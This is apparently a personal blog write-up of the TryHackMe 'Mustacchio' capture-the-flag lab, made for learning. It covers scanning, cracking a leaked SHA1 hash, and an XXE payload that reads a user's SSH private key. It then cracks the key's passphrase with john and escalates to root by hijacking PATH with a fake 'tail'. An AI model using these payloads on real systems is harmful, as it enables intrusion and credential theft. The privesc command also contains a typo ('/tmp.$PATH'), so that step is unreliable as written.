 ```yaml
---
title: TryHackMe - Mustacchio
layout: post
categories:
- TryHackMe
New field 3:
- xxe,
- privesc,
- enumeraton
image: "/assets/img/mustacchio.png"
image_alt: mustacchio
---
```


Easy boot2root Machine. Let's start.

<br>

## 1. Mustacchio 

Deploy and compromise the machine!

<br>

### 1.1 User Flag?

_Hint: Check the source of the page._

Let's do a `nmap` scan first.

```
$ nmap -sSV 10.10.80.114
```

![nmap](/assets/img/tryhackme/mustacchio/nmap.png)

We found three open ports. These are `22/tcp SSH, 80/tcp HTTP, and 8765/tcp HTTP`.

First, let's visit the website running on port 80/tcp and see what we can find.
Five different pages appear. These are home, about, gallery, blog, and contact. 

![home](/assets/img/tryhackme/mustacchio/home.png)

I am checking the links and source pages that can be visited on the website, but I could not find anything remarkable.
 
I decided to do a directory scan with Gobuster. But first, let's visit the website running on 8765/tcp port.

![admin](/assets/img/tryhackme/mustacchio/admin.png)

We found an admin panel, it will help us. Anyway, let's go back to port 80/tcp and do a gobuster scan.

![gobuster](/assets/img/tryhackme/mustacchio/gobuster.png)

The custom directory looks interesting. When we go inside, we find a file called `user.bak`, which is interesting.

![userbak](/assets/img/tryhackme/mustacchio/userbak.png)

Let's see what's in it.

![admincode](/assets/img/tryhackme/mustacchio/admincode.png)

**`admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`**

I guess this is the login information to the admin panel but the password seems to be encrypted. 
I check with the hash-identifier. 

![codeid](/assets/img/tryhackme/mustacchio/codeid.png)

Most likely admin's password is encrypted using `SHA1`.

You can decrypt online from any website by searching for "SHA1 decrypt" in the browser. I used the following website. [Here](https://md5decrypt.net/en/Sha1/#answer)

![decode](/assets/img/tryhackme/mustacchio/decode.png)

We found the password.

**`admin : bulldog19`**

Now let's go to the admin panel and log in.
We logged in.

![comment](/assets/img/tryhackme/mustacchio/comment.png)

I've tried a few command injections into the area that comes up, but it just seems like a gimmick.

I'm checking the source of the page and we're getting some important information here. 
- We explore the /auth/dontforget.bak file. 

- ![dontforget](/assets/img/tryhackme/mustacchio/dontforget.png)

- We discover that Barry is now able to log into SSH.

- ![barryssh](/assets/img/tryhackme/mustacchio/barryssh.png) 

Let's first check the dontforget.bak file.

Download directly from here [http://10.10.80.114:8765/auth/dontforget.bak](http://10.10.80.114:8765/auth/dontforget.bak). 

Something like this welcomes us.

![dontforgetbakin](/assets/img/tryhackme/mustacchio/dontforgetbakin.png)

But there is one important thing about this code, it's not a complete waste of time. 
This code is an XML code, if we copy this code and paste it into the comment section in the admin panel, we get the following result.

![joe](/assets/img/tryhackme/mustacchio/joe.png)

I mean, we need to write xml code in this comment section. So I am trying to do command injection using xml.

I tried the commands [here](https://github.com/payloadbox/xxe-injection-payload-list) but no result.

But I realized something, I was constantly getting this result.

![empty](/assets/img/tryhackme/mustacchio/empty.png)

Here I understood that I should use the tags in dontforget.bak.

First I decided to give it a try with the code below.

![try](/assets/img/tryhackme/mustacchio/try.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "XML Injection"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>&example;</author>
<com>Test paragraph</com>
</comment>
```

![tryout](/assets/img/tryhackme/mustacchio/tryout.png)

It worked as you can see. Now we can access the information inside the system. 

We got the message that Barry can now log in to ssh, if we go to Barry's directory and get the rsa key, we can log in too. 

I run the following code in the admin panel to get the id_rsa key.

![commentinssh](/assets/img/tryhackme/mustacchio/commentinssh.png)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM 'file:////home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&example;</com>
</comment>
```

![outrsa](/assets/img/tryhackme/mustacchio/outrsa.png)

Yes, we have reached the RSA key, now we need to copy and edit this key. I tried without editing and it doesn't work :D.
Make sure there are no spaces at the end of the lines. Each one should be a separate line.
It should look like this when you edit it. 

![edit](/assets/img/tryhackme/mustacchio/edit.png)

Now we need to crack this id_rsa for barry's ssh password.

```
$ ssh2john id_rsa > id_rsa.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![crack](/assets/img/tryhackme/mustacchio/crack.png)

**`barry : urieljames`**

Now we can log in ssh.

```
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.80.114
```

![barryin](/assets/img/tryhackme/mustacchio/barryin.png)

And we are inside.

Now we can access the user flag.

![user-flag](/assets/img/tryhackme/mustacchio/user-flag.png)

<br>

### 1.2 Root Flag?

_Hint: SUID?_

We proceed with the clue that the question gives us. First, we will run the following code.

```
$ find / -type f -perm -04000 -ls 2>/dev/null
``` 

![suid](/assets/img/tryhackme/mustacchio/suid.png)

I couldn't find anything remarkable and started navigating the system. 

I discovered the joe directory next to barry, and if you remember a file like `live_log` in it, we also saw this file as a result of the code we wrote above.

![ls](/assets/img/tryhackme/mustacchio/ls.png)

I'm looking at the strings content of this log file and we find something remarkable here. The tail command was used.

```
$strings live_log
```

![strings](/assets/img/tryhackme/mustacchio/strings.png)

I've been doing some research on how to escalate using this and I find that it's as follows.

![privesc](/assets/img/tryhackme/mustacchio/privesc.png)

```
$ echo "/bin/sh" > tail
$ chmod 777 tail
$ export PATH=/tmp.$PATH
$ cd /home/joe/
$ ./live_log
```

And we are inside. To be frank, I don't fully understand the logic of raising authority, I'll go over it a little later.
But now we can get to root.txt.

![root-flag](/assets/img/tryhackme/mustacchio/root-flag.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
